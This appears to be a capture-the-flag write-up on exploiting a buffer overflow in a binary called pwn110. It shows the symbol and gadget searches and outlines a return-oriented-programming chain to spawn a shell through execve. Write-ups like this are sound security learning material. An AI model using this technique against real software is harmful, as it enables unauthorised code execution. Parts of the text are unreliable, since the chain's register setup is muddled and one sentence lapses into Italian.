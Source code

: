 The *main* is **Buffer Overflow Vulnerable**.

How to exploit this vulnerability?

```bash
$ readelf --syms pwn110

#1878 results.

$ rabin2 -iz pwn110

#1319 results.
```

Try to catch some useful symbols and strings, like *system*, *execve* and */bin/sh* but there aren't.

The idea should be to try to use the `syscall` construct that are surely presenti nelle funzioni staticamente incorporate nel binario.

```bash
$ objdump -d -M intel pwn110 | grep syscall | wc -l
172

$ ropper --file=pwn110 --search syscall
...
0x00000000004173d4: syscall; ret;
```

> [https://www.gnu.org/software/libc/manual/html_node/System-Calls.html](https://www.gnu.org/software/libc/manual/html_node/System-Calls.html)

Looking for the is the system call number that identifies the *execve*.

> Note: the binary is **No PIE**.

`execve`

- **sysno**: 59
- **args**: const char \*filename, const char \*argv ,const char \*const \*envp.

=> `execve("/bin/sh", ...)`

ROP chain:

- padding
- pop rdi; pop rsi; ret
- 59
- "/bin/sh"
- syscall

### Gadgets

```bash
$ ropper --file=pwn110 --search "pop rdi"
0x00000000004035a3: pop rdi; pop rbp; ret;

$ ropper --file=pwn110 --search "mov rsi"
0x000000000047c34e: mov rsi, rbp; syscall;

```
